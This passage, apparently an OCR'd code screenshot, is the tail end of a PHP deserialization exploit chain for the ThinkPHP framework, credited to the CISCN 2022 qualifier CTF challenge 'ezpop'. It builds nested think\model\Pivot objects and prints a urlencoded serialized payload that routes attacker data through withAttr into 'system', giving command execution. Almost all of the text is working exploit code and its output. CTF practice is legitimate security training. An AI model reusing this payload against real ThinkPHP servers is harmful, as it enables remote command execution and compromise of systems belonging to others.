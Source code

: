 ```plain
        }
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model{
    }
}

namespace {
    echo (urlencode(serialize(new think\model\Pivot(new think\model\Pivot()))));
}

//O%3A17%3A%22think%5Cmodel%5CPivot%22%3A7%3A%7Bs%3A21%3A%22%00think%5CModel%00lazySave%22%3Bb%3A1%3Bs%3A17%3A%22%00think%5CModel%00data%22%3Ba%3A1%3A%7Bs%3A6%3A%22whoami%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A3%3A%22dir%22%3B%7D%7Ds%3A19%3A%22%00think%5CModel%00exists%22%3Bb%3A1%3Bs%3A8%3A%22%00%2A%00table%22%3BO%3A17%3A%22think%5Cmodel%5CPivot%22%3A7%3A%7Bs%3A21%3A%22%00think%5CModel%00lazySave%22%3Bb%3A1%3Bs%3A17%3A%22%00think%5CModel%00data%22%3Ba%3A1%3A%7Bs%3A6%3A%22whoami%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A3%3A%22dir%22%3B%7D%7Ds%3A19%3A%22%00think%5CModel%00exists%22%3Bb%3A1%3Bs%3A8%3A%22%00%2A%00table%22%3Bs%3A0%3A%22%22%3Bs%3A21%3A%22%00think%5CModel%00withAttr%22%3Ba%3A1%3A%7Bs%3A6%3A%22whoami%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A7%3A%22%00%2A%00json%22%3Ba%3A2%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3Bi%3A1%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3B%7D%7Ds%3A12%3A%22%00%2A%00jsonAssoc%22%3Bb%3A1%3B%7Ds%3A21%3A%22%00think%5CModel%00withAttr%22%3Ba%3A1%3A%7Bs%3A6%3A%22whoami%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22system%22%3B%7D%7Ds%3A7%3A%22%00%2A%00json%22%3Ba%3A2%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3Bi%3A1%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3B%7D%7Ds%3A12%3A%22%00%2A%00jsonAssoc%22%3Bb%3A1%3B%7D
```

来源题目 \[CISCN 2022 初赛\]ezpop
